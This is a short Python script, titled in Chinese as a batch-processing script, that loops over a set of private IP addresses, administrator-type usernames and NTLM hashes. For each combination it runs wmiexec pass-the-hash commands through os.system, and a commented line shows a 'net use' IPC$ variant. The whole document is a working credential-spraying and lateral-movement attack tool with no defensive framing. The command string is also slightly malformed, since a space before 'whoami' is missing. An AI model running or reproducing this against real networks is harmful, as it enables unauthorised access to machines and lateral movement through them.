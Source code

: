 批量处理脚本

```python
import os
import time
ips={
'192.168.168.1',
'192.168.168.100',
'192.168.168.101',
'192.168.168.102',
'192.168.168.103',
'192.168.168.106',
'192.168.168.107',
'192.168.168.110'
}
users={
'Administrator',
'boss',
'dbadmin',
'fileadmin',
'mack',
'mary',
'vpnadm',
'webadmin'
}
hashs={
'518b98ad4178a53695dc997aa02d455c',
'ccef208c6485269c20db2cad21734fe7',
'ddf233c64823455c20db2cad21734fe7'
}
for ip in ips:
    for user in users:
        for mima in hashs:
            # exec="net use \\" + "\\" + ip + '\ipc$ ' + mima + ' /user:god\\' +user
            exec="wmiexec -hashes :" + mima + ' ./' +user + "@" +ip+ "whoami"
            print('--->'+exec+' ---> done')
            os.system(exec)
            time.sleep(0.1)
print('all done')
```

